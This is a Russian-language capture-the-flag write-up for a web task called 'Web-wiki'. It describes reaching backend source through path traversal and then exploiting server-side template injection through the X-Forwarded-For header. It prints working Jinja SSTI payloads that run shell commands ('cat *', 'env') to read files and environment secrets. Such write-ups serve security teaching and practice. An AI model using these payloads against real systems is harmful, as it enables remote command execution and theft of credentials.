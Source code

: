 # Web-wiki. The beginning
![](img/wtp1.png)

## Первые шаги

Как только появляется возможность зайти в таск, можно заметить несколько вещей:
- На основной странице в Template попадает заголовок XFF, который генерится после отправки запроса.
- В качестве сервера выступает Nginx. На основной странице информация о том, что бэк написан на Python.

![](img/wtp2.png)

![](img/wtp4.png)

![](img/wtp5.png)

## Как сплойтится XFF? 
Наверное, без исходного кода достаточно сложно понять, что именно происходит при попытке подмены XFF. Многие сталкивались с тем, что при отправке своих Хедеров сайт отображал все тот же IP. А что, если я скажу, что есть возможность получить доступ к исходному коду?

### В ход вступает Path traversal... 

![](img/wtp6.png)

## Что на бэке? 
При правильной эксплуатации path traversal (чтение wsgi.py, точки входа для Nginx) можно наткнуться и на остальные, необходимые файлы для дальнейшего решения. Как пример - veiw.py

![](img/wtp7.png)

### Разбираемся с кодом
Очевидно, что на бэке имеется роутинг, который ловит любой url path и открывает файл по данному пути, начиная с папки 'static'. Также, можно заметить, что после каждого запроса XFF задается заново и отбрасывает точки, что наталкивает нас на дальнейшие действия. 

` if (check_xff.abort_rq()):
        xff = str(request.headers.getlist('X-Forwarded-For')[0]).split(',')[len(xff)-1]
`
Данная строка говорит о том, что берется определенный элемент из XFF(если рассмотреть подробнее, то в request.headers.getlist всегда хранится list с len() == 2)

## Эксплойт! 
Гуглим: python ssti, первой же ссылкой получаем всю необходимую информаицию:
> https://istroev.me/Server-side-template-injection-python/

Пример эксплойта представлен ниже:

`123, {{request['application']['__globals__']['__builtins__']['__import__']('os')['popen']('cat *')['read']()}}`
### Замечаем, что флаг хранится в env. Дальше есть 2 вектора, покажу один из них:
`123, {{request['application']['__globals__']['__builtins__']['__import__']('os')['popen']('env')['read']()}}`

![](img/wtp9.png)



